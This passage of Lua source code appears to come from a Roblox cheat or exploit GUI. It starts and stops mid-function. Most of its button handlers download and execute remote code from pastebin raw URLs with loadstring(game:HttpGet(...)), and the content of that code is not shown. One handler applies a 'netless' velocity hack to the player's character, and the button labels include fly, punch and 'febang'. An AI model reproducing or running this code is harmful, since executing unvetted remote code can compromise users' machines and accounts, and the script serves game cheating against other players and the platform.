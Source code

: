 	script.Parent.MouseButton1Click:Connect(function()
		loadstring(game:HttpGet("https://pastebin.com/raw/jJ4VMxwC", true))()
	end)
end
coroutine.wrap(RIET_fake_script)()
local function OEQE_fake_script() -- melon.LocalScript 
	local script = Instance.new('LocalScript', melon)

	script.Parent.MouseButton1Click:Connect(function()
		-- when you reset make sure to re-execute this or just make this execute in a loop
		for i,v in next, game:GetService("Players").LocalPlayer.Character:GetDescendants() do
			if v:IsA("BasePart") and v.Name ~="HumanoidRootPart" then 
				game:GetService("RunService").Heartbeat:connect(function()
					v.Velocity = Vector3.new(-30,0,0)
				end)
			end
		end
	
		game:GetService("StarterGui"):SetCore("SendNotification", { 
			Title = "Notification";
			Text = "Netless Ran";
			Icon = "rbxthumb://type=Asset&id=5107182114&w=150&h=150"})
		Duration = 16;
	end)
end
coroutine.wrap(OEQE_fake_script)()
local function OQUR_fake_script() -- hat.LocalScript 
	local script = Instance.new('LocalScript', hat)

	script.Parent.MouseButton1Click:Connect(function()
		loadstring(game:HttpGet(('https://pastebin.com/raw/AC7at7uJ'),true))()
	end)
end
coroutine.wrap(OQUR_fake_script)()
local function UFYJX_fake_script() -- among.LocalScript 
	local script = Instance.new('LocalScript', among)

	script.Parent.MouseButton1Click:Connect(function()
		loadstring(game:HttpGet(('https://pastebin.com/raw/YqgUQ5Zj'),true))()
	end)
end
coroutine.wrap(UFYJX_fake_script)()
local function QTIAHO_fake_script() -- febang.LocalScript 
	local script = Instance.new('LocalScript', febang)

	script.Parent.MouseButton1Click:Connect(function()
		loadstring(game:HttpGet(('https://pastebin.com/raw/hQPjzRw1'),true))()
	end)
end
coroutine.wrap(QTIAHO_fake_script)()
local function BXMCM_fake_script() -- fly.LocalScript 
	local script = Instance.new('LocalScript', fly)

	script.Parent.MouseButton1Click:Connect(function()
		loadstring(game:HttpGet(('https://pastebin.com/raw/RTSMznAk'),true))()
	end)
end
coroutine.wrap(BXMCM_fake_script)()
local function SPVW_fake_script() -- punch.LocalScript 
	local script = Instance.new('LocalScript', punch)
